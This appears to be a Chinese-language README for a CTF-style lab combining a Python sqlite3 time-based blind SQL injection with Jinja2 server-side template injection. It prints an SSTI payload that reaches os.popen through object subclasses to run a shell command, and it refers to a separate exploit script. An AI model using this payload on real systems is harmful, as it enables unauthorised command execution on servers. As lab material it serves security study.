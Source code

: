 python3环境下的sqlite3跟ssti

python main.py 运行环境

注入exp在：exp.py

由于环境不同，延时注入的返回时间可能不同，请自行调试。
代码较为冗长，都是用的同一种方法盲注

flag文件请放在更目录，否则用cat flag。

ssti的payload为：  
```  
{% for c in ''.__class__.__base__.__subclasses__() %}
{% if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__.get('__builtins__').get('__import__')("os").popen('whoami').read() }}
{% endif %}
{% endfor %}   
```

![pic1](/pic/3.png)

![pic1](/pic/1.png)

![pic1](/pic/2.png)

![pic1](/pic/4.png)